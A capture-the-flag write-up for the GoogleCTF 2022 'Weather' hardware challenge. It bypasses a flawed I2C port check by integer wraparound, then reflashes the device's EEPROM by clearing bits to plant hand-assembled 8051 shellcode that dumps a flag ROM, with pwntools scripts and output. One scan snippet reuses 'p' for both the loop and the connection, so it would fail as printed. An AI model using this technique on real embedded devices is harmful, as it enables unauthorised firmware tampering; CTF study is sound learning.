

# GoogleCTF 2022 - Hardware - Weather writeup
This challenge is what I consider a good learning experience, 
and a perfect model for how hardware challenges should be like. 
It was really interesting not only in terms of the problems you needed to
solve to get the flag, but also in terms of the additional
research you needed to do to get a clear picture of how the system works
exactly. I would definitely spend hours solving challenges like this
once again.

## Challenge description
> Our DYI Weather Station is fully secure! No, really! Why are you
> laughing?! OK, to prove it we're going to put a flag in the internal
> ROM, give you the source code, datasheet, and network access to the
> interface.

## Attachements
[firmware.c] \
[Device Datasheet Snippets.pdf]

## Remote connection
If the servers of the challenge are still running, then you can connect to them at `weather.2022.ctfcompetition.com 1337`.

Otherwise you would need to compile them from 
[sources](https://github.com/google/google-ctf/tree/master/2022/hardware-weather/challenge), 
I haven't tried doing it, but it should be simple since they provide 
a Dockerfile. Keep in mind that you aren't allowed to look at the 
sources before solving the challenge.

## Prerequesite knowledge
The line separating *Prerequisite knowledge* and *Stuff to search for* 
is arbitrary, and in fact it can be argued that they are the same thing,
but in this writeup I will be drawing that line based on what I already knew
before this challenge.

### SFRs — Special Function Registers
For microcontrollers, it is very common to have special registers 
that exhibit special behaviour when read or written to, or control the
microcontroller itself. These registers are (usually) accessed through RAM
addresses, and so the same instructions to modify any memory byte applies
to them as well.

### I2C
I2C is a protocol that allows multiple devices to communicate with each
other. The details of exactly how the protocol works are not important
as they are abstracted away by the microcontroller, all that is needed
to know is that each device connected to the I2C bus has a port and
can transfer any size data to the microcontroller when requested.

## Initial experiments
If we try to open a remote connection with the program through a utility
such as `ncat` with `ncat weather.2022.ctfcompetition.com 1337`, we get
what seems like a command prompt `? `. Trying some commands like `ls`,
`echo`, `cat`... achieves nothing, so it definitely isn't a shell, `help`
doesn't help either ;)

At his point no more blind testing can be done, so it's time to read
the datasheet and the source code.

## Walking through the datasheet
The datasheet provided contains a good overview of the whole
system, and even more details about how to control the different devices.

### Overview


From the circuit diagram, we can see that the system is composed of:
* A microcontroller(CTF-8051)
* EEPROM(CTF-55930D)
* Multiple sensors
* I2C bus(SDA, SCL)
* Serial IO(Stx, Srx)

All the sensors and the EEPROM are connected with the microcontroller
through the I2C bus.

By googling [8051], we can find that there is a processor with that name,
this could be useful if, say *cough* for a reason, we needed 
to reprogram the device *cough*, and just in general to have a
better understanding of the components in the system.

Further down we have a table giving the I2C ports
of the sensors.


### Devices Interface
The datasheet also describes in detail how to interact with the different devices connected to the microcontroller. In short, it specifies:
* Serial IO, through SFRs.
* I2C Controller, through SFRs.
* FlagROM, through SFRs.
* Sensors, through I2C.
* EEPROM, through I2C.
* Pinging I2C devices.

Also, quoting from the datasheet:
> In a typical application CTF-55930B serves as firmware storage for 
> CTF-8051 microcontroller via the SPI(PMEM) bus.

So the EEPROM stores the program code, in addition, the datasheet describes
the protocol to clear bits from the EEPROM(setting bits is impossible
without physical access to the device), effectivly explaining how 
to reprogram the EEPROM with some constraints. This definitely could be used
to exploit the system.

## Walking through the source code
Right at the beginning of `firmware.c`, we can see a bunch of declarations using a special syntax:
```c
// Secret ROM controller.
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;

// Serial controller.
__sfr __at(0xf2) SERIAL_OUT_DATA;
__sfr __at(0xf3) SERIAL_OUT_READY;
__sfr __at(0xfa) SERIAL_IN_DATA;
__sfr __at(0xfb) SERIAL_IN_READY;

// I2C DMA controller.
__sfr __at(0xe1) I2C_STATUS;
__sfr __at(0xe2) I2C_BUFFER_XRAM_LOW;
__sfr __at(0xe3) I2C_BUFFER_XRAM_HIGH;
__sfr __at(0xe4) I2C_BUFFER_SIZE;
__sfr __at(0xe6) I2C_ADDRESS;  // 7-bit address
__sfr __at(0xe7) I2C_READ_WRITE;

// Power controller.
__sfr __at(0xff) POWEROFF;
__sfr __at(0xfe) POWERSAVE;
```
It contains a declaration for all the SFR ports described in the datasheet,
in addition to `POWEROFF` and `POWERSAVE`, which were left undocumented.

Anyway, as the law of reverse engineering dictates, we must start 
reading the source code from the main function, I would recommand taking
a look at the function, but tl;dr: it continously checks for user commands
received via the serial input and handles them.

The two valid commands are:

`r P L`: Read L bytes from I2C device at port P.

`w P L D[L]`: Write L bytes from D to I2C device at port P.

Remember talking about reprogramming the EEPROM through the I2C interface
well, it seems easy now that we have the `w` command, no?

Well, there are two problems.

### Port verification
The original function of the entire system is to report different 
atmospherical data, and so the developpers limited reading and writing to
I2C to sensor ports through the function `bool is_port_allowed(char*)`.

As a result we are limited to the ports:
```c
const char *ALLOWED_I2C[] = {
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
  NULL
};
```

The declaration of that function goes as follow:
```c
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```
When the port is validated, the string is passed to 
`uint8_t str_to_uint8(const char* s)` to be converted to an unsigned 8-bit
integer.
```c
uint8_t str_to_uint8(const char *s) {
  uint8_t v = 0;
  while (*s) {
    uint8_t digit = *s++ - '0';
    if (digit >= 10) {
      return 0;
    }
    v = v * 10 + digit;
  }
  return v;
}
```
The original intent behind this function is returning true only when the
port string is exactly 101, 108, 110, 111 or 119, but the implementation
is incorrect, and if you use some of your grey matter you can figure
out that it would return true even when the string only starts with those
value, and so, for example `1013` would also be valid since it starts with
101.

So as long as we have a number starting with 101(or the others), we can
figure out a value that, when wrapped around as it is converted to a uint8
will give us any arbitrary port we wish.

It would be useful to write a function that would take an input port and
generate an exploitable port that would pass the validation function and
when converted to a `uint8_t` would wrap around to the desired port.

What we want to do is solve the equation for X `101..X % 256 = port`,
where `101..X` denotes a concatenation. But since I am bad at modular
arithmetics, I will just bruteforce the value of X.
```py
def exploit_port(port):
  i = 0
  while True:
    if int('101' + str(i)) % 256 == port:
      return '101' + str(i)
    i += 1
```

### EEPROM I2C port
The second problem is that we do not know the I2C port that would let us
program the EEPROM, we can however just send dummy read commands and if
there is no error returned, then the device should exist

Let's start by the basics:
```py
from pwn import *

p = remote('weather.2022.ctfcompetition.com',1337)
```
. We could've used 0 for the request length and do as the datasheet says
*a ping*, but the program will refuse a value of 0, so instead we just
send 1 as request length.

```py
def print_all_valid_i2c_ports():
  print('Valid I2C ports:')
  for p in range(256):
    print(f'\r\t{p}', end='', flush=True)
    command = f'r {exploit_port(p)} 1'
    p.sendafter(b'? ', command.encode('utf-8'))
    if not 'err' in p.recvline().decode('utf-8'):
      print(' X')
```

When we call that function, we get the following output:
```
Existing i2c ports:
  33 X
  101 X
  108 X
  110 X
  111 X
  119 X
```

We already know from the datasheet that the ports `101`,`108`,`110`,`111`
and `119` are used by the sensors, that leaves only port `33` for the
EEPROM, so it is safe to assume it is the one we are looking for.

---
The rest of the source code is not very interesting, it only consists of
a simple tokenizer for the input commands, a serial print function(we will
make use of this one later) and I2C read and write functions.

## EEPROM
The datasheet specifies that we cannot reset the EEPROM without physical
access to the device, what we can however do through the I2C interface is
reading, and clearing bits to 0.

Take a look at [exploit.py] for the implementation of some helper functions
to read pages from the EEPROM and apply a clear mask.

If we read all the content of the EEPROM and dump it into a file we get
[eeprom].

The most interesting part about the content of the EEPROM is at the end
```
00009f0 0031 3031 0038 3131 0030 3131 0031 3131
0000a00 0039 ffff ffff ffff ffff ffff ffff ffff
0000a10 ffff ffff ffff ffff ffff ffff ffff ffff
*
0001000
```

It is completely filled FFs, and since we can only clear bits, this
basically means we can write whatever we want in this area of the EEPROM,
and remember the EEPROM is what stores the code executed by the
microcontroller, so we can get RCE if we want to.

## Putting everything together
Now all that is needed is putting some shellcode in that area full of FFs
and jumping to that section of the code, to do that however we must find
a place where we can modify the code only by clearing to put a jump to
the region with FFs. I found a good candidate for that in the
`serial_print` function(at address 0x0123)
```
0000120 80f0 ad22 ae82 af83 8df0 8e82 8f83 12f0
                  ^ beginning of serial_print
0000130 fc07 1660 f3e5 fc60 828d 838e f08f 0712
```
We can change `82` to `02`(opcode for LJMP) just by clearing bits, and
`AF83` to `0C00`(the 8051 uses big endian words), this address is
arbitrary and any address in the FF region will do(of course it needs to
be reachable from AF83 just by clearing bits), as for the first byte at
0x0123, we can change it to a NOP(0x00) so that it is ignored.

What we are essentially doing here is inserting the following shellcode
inside `serial_print`:
```s
serial_print:
  NOP
  LJMP 0x0C00
```

The choice of the function `serial_print` was semi-arbitrary, we could've
used any other function for the jump, but it also was strategic since
it is immediatly called after the write operation is done, so we don't
need to send any other command to do the jump, it will just happen
instantly.

Now all that is needed is some subprogram that would read the flagROM
character by character and send them over the serial line(to us).

The following does the job:
```s
    MOV #ee, 0
LOOP:
    MOV A, #f3
    JZ LOOP
    MOV #f2, #ef
    INC #ee
    MOV A, #ee
    JZ END
    LJMP LOOP
END:
    MOV A, #f3
    JZ END
    MOV #f2, '\n'
    SJMP $
```
*Using a custom syntax, '#XX' is for SFRs*

It is the equivalent of the C code:
```c
FLAGROM_ADDR = 0;
while(true)
{
  while(!SERIAL_OUT_READY);
  SERIAL_OUT_DATA = FLAGROM_DATA;
  if(!++FLAGROM_ADDR)
    break;
}
while(!SERIAL_OUT_READY);
SERIAL_OUT_DATA = '\n';
while(true);
```

I was too lazy to find an assembler for the 8051, so I assembled it by hand
to:
```py
payload = [
  0x75, 0xEE, 0x00,
  0x85, 0xEF, 0xF2,
  0x05, 0xEE,
  0xE5, 0xEE,
  0x60, 0x03,
  0x02, 0x0C, 0x03,
  0xE5, 0xF3,
  0x60, 0xFC,
  0x75, 0xF2, 0x0A, 
  0x80, 0xFE
]
```

Remember the payload should be put in its place before tampering with
`serial_print`

And finally:
```py
eeprom_flah_new_page(48, payload)
eeprom_write_mask(4, p4mask) # setup serial_print
print(p.recvline())
```
*Again, take a look at [exploit.py] for a full implementation*

Executing the exploit gives us:
```bash
$ python exploit.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
Delivering payload
w 101153 69 48 165 90 165 90 138 17 255 122 16 13 250 17 26 17 159 252 253 243 252 26 12 159 3 138 13 245 127 1 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 
w 101153 1 48 
Page 48
75 ee 00 85 ef f2 05 ee 
e5 ee 60 03 02 0c 03 e5 
f3 60 fc 75 f2 0a 80 fe 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
Injecting jump at page 4 to 0xC00
w 101153 69 4 165 90 165 90 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 255 253 243 255 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 
waiting for response...
b'CTF{DoesAnyoneEvenReadFlagsAnymore?}\n'
[*] Closed connection to weather.2022.ctfcompetition.com port 1337
```

Finally! The flag is `CTF{DoesAnyoneEvenReadFlagsAnymore?}`

[firmware.c]: res/firmware.c
[Device Datasheet Snippets.pdf]: res/Device%20Datasheet%20Snippets.pdf
[exploit.py]: res/exploit.py
[eeprom]: res/eeprom

[8051]: https://en.wikipedia.org/wiki/Intel_8051
